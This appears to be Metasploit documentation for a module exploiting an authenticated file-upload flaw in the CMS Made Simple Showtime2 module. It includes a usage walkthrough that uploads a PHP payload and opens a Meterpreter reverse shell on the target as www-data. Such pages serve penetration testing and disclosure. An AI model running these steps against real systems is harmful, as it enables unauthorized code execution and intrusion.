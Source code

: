 ```yaml
---
layout: default
---
```


# CMS Made Simple (CMSMS) Showtime2 module < 3.6.3 File Upload RCE

This module exploits a File Upload vulnerability that lead in a RCE in Showtime2 module (<= 3.6.2) in CMS Made Simple (CMSMS). An authenticated user with "Use Showtime2" privilege could exploit the vulnerability.

The vulnerability exists in the Showtime2 module, where the class "class.showtime2_image.php" does not ensure that a watermark file has a standard image file extension (GIF, JPG, JPEG, or PNG).

Tested on Showtime2 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2 on CMS Made Simple (CMSMS) 2.2.9.1

## Module Name

exploit/multi/http/cmsms_showtime2_rce

## Authors

* Daniele Scanu (Discovery)
* Fabio Cogno (Metasploit Module)

## Disclosure date

Mar 11, 2019

## Actions

* CHECK
* EXPLOIT

## Reliability

[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## References

* [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
* [Announcing CMS Made Simple v2.2.10 - Spuzzum](https://forum.cmsmadesimple.org/viewtopic.php?f=1&t=80285)
* [REPOSITORY SUBVERSION SHOWTIME2](http://viewsvn.cmsmadesimple.org/diff.php?repname=showtime2&path=%2Ftrunk%2Flib%2Fclass.showtime2_image.php&rev=47)
* [CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload](https://www.exploit-db.com/exploits/46546)

## Required Options

* RHOST - The target address
* RPORT - The target port (TCP)
* USERNAME - Username to authenticate with
* PASSWORD - Password to authenticate with

## Not Required Options

* TARGETURI - Base CMS Made Simple directory path ("/" is the default)

## Basic Usage

To display the available options, load the module within the Metasploit console and run the commands 'show options':

```
msf5 > use exploit/multi/http/cmsms_showtime2_rce 
msf5 exploit(multi/http/cmsms_showtime2_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/cmsms_showtime2_rce) > check

[*] Showtime2 version: 3.6.2
[*] 192.168.2.59:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/cmsms_showtime2_rce) > set username Designer
username => Designer
msf5 exploit(multi/http/cmsms_showtime2_rce) > set password d3s1gn3r
password => d3s1gn3r
msf5 exploit(multi/http/cmsms_showtime2_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[*] Showtime2 version: 3.6.2
[*] Uploading PHP payload.
[*] Making request for '/06wp7Fen.php' to execute payload.
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:59932) at 2019-03-19 23:27:07 +0100
[!] Tried to delete ./06wp7Fen.php, unknown result

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/cmsms_showtime2_rce) >
```

---

[back](./)